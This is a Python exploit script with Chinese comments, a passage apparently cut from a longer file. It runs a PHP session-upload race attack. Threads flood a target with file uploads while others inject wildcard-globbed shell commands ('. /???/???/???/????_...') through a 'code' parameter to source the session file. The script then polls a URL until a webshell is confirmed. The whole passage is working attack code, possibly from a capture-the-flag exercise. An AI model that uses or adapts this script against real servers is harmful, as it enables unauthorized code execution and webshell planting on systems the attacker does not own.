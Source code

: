 ```python
#     f"/var/lib/php/sess_{sessionid}",
#     f"/var/lib/php/sessions/sess_{sessionid}",
#     f"/tmp/sess_{sessionid}",
#     f"/tmp/sessions/sess_{sessionid}"
# ]
str_len = len(sessionid)
payload = "?"*str_len
session_paths = [
    f". /???/???/???/????_{payload}",
    f". /???/???/???/????????/????_{payload}",
    f". /???/????_{payload}",
    f". /???/????????/????_{payload}"
]

# 全局停止事件
stop_event = threading.Event()

def upload_file():
    while not stop_event.is_set():
        try:
            requests.post(url, data=data, files=file, cookies=cookies, timeout=3)
        except requests.RequestException:
            pass
        # time.sleep(1)

def check_file():
    while not stop_event.is_set():
        try:
            # 尝试所有常见 session 文件路径
            for path in session_paths:
                print(f"Trying path: {path}")
                requests.post(url, data={"code": path}, timeout=3)

            r = requests.get(shell_url, timeout=3)
            if r.status_code == 200:
                print('Webshell created successfully')
                print(r.text)
                stop_event.set()  # 文件创建成功，通知所有线程退出
                break
            else:
                print(f"{r.status_code}")
        except requests.RequestException:
            pass
        # time.sleep(1)

# Ctrl+C 捕获处理
def signal_handler(sig, frame):
    print("\nCtrl+C 捕获，正在退出...")
    stop_event.set()
    sys.exit(0)

signal.signal(signal.SIGINT, signal_handler)

# 启动线程
threads = []
for _ in range(5):
    t = threading.Thread(target=upload_file, daemon=True)
    t.start()
    threads.append(t)

for _ in range(15):
    t = threading.Thread(target=check_file, daemon=True)
    t.start()
```